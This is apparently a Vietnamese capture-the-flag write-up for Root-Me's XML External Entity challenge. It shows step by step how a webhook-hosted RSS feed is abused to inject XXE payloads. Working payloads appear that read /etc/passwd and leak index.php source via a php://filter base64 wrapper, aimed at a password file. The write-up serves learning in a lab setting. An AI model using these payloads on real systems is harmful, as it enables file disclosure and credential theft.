 # XML - External Entity

**Tên challenge:** RSS Validity Checker

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/XML-External-Entity)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Retrieve the administrator password.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 2 chức năng là `Login` và `Check Valid RSS` như sau:

![alt text](./images/image.png)
![alt text](./images/image-1.png)

Vì ta đã biết lỗ hổng là XXE cho nên mục đích của ta là chèn file XML độc hại vào Website để nó thực thi câu lệnh đó và lấy được `password`.

Như yêu cầu của Input `Checker` là nó sẽ kiểm tra đường dẫn tới 1 file RSS và kiểm tra xem thông tin RSS có hợp lệ không.

Bạn có thể vào link sau để lấy mẫu XML RSS: [XML RSS](https://www.w3schools.com/xml/xml_rss.asp)

**B2:** Ta thử dùng Webhook và edit lại nội dung của trang Webhook thành mẫu XML RSS mà ta lấy từ link trên:

![alt text](./images/image-2.png)
Sau đó, ta tiến hành copy link Webhook và paste vào Input `Checker`.

![alt text](./images/image-3.png)

Ở đây ta thấy nó xuất hiện 2 dòng `RSS Tutorial` và `XML Tutorial`.

=> Website đã lấy dữ liệu từ file RSS của ta và ta cũng có thể lợi dụng `Title` để chèn vào payload XML để xem liệu trang Web có thực thi không. 

**B3:** Ta tiếp tục thử input payload sau:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY example "TEST"> ]>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>

  <item>
    <title>&example</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>

  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```
Cụ thể là ta đã thêm dòng thứ 2 `<!DOCTYPE replace [<!ENTITY example "TEST"> ]>` và thay đổi `Title` đầu tiên thành `<title>&example;</title>` để test thử XXE.

![alt text](./images/image-4.png)

=> Kết quả `Title` đầu tiên đã đổi thành `TEST`.

`B4:` Ta chuyển payload `XXE` trên thành payload đọc file `/etc/passwd`.
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>&example;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```
Tuy nhiên kết quả trả về là:
```
XML document is not valid
```
Tới đây, có thể là Challenge đã chặn ta đọc file `passwd` hoặc cũng có thể Output trả về không hợp lệ với cú pháp tiêu chuẩn của file XML nên ta sẽ thử cách là dùng đến `PHP Wrapper`, cụ thể hơn là dùng `php://filter` để chuyển đổi nội dung đọc được thành dạng `Base64`, có như vậy thì chuỗi đầu ra sẽ là 1 dãy ký tự phù hợp với cú pháp tiêu chuẩn của file XML.

**B5:** Ta thử giả thuyết trên:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>&example;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```

![alt text](./images/image-5.png)

=> Vậy là ta đã thành công in ra được nội dung của file cần đọc.

Tiếp đến, ta chỉ cần chuyển giải mã nội dung **Base64** trên là sẽ đọc được nội dung gốc.

<u>**Thông tin thêm:**</u> Flag nằm ở file `.passwd` cùng thư mục chứa file `index.php`